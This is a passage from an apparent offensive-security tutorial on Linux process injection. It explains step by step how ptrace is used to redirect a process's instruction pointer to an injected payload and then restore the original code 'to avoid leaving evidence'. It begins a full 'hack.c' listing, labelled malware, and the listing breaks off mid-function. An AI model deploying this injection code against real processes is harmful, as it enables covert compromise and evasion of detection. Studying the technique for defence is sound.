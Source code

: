 As you can see this function is like `read_mem`, but for write memory logic.      

At the next stage, we modify the process's instruction pointer (`RIP`) to execute the injected payload:     

```cpp
ptrace(PTRACE_CONT, target_pid, NULL, NULL);
```

After the payload has executed, we restore the original memory instructions to avoid crashing the process or leaving evidence:      

```cpp
write_mem(target_pid, target_regs.rip, original_code, payload_len);
```

Finally, detach from the target process, allowing it to resume normal operation:     

```cpp
ptrace(PTRACE_DETACH, target_pid, NULL, NULL);
```

So the full source code of our code injection "malware" looks like this (`hack.c`):     

```cpp
/*
 * hack.c
 * practical example of linux process injection
 * author @cocomelonc
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/user.h>
#include <unistd.h>

// read memory from the target process
void read_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
    memcpy(buffer + i * sizeof(long), chunk.bytes, sizeof(long));
    i++;
  }
  int remaining = len % sizeof(long);
  if (remaining) {
    chunk.val = ptrace(PTRACE_PEEKDATA, target_pid, addr + i * sizeof(long), NULL);
    memcpy(buffer + i * sizeof(long), chunk.bytes, remaining);
  }
}

// write memory into the target process
void write_mem(pid_t target_pid, long addr, char *buffer, int len) {
  union data_chunk {
    long val;
    char bytes[sizeof(long)];
  } chunk;
  int i = 0;
  while (i < len / sizeof(long)) {
    memcpy(chunk.bytes, buffer + i * sizeof(long), sizeof(long));
    ptrace(PTRACE_POKEDATA, target_pid, addr + i * sizeof(long), chunk.val);
```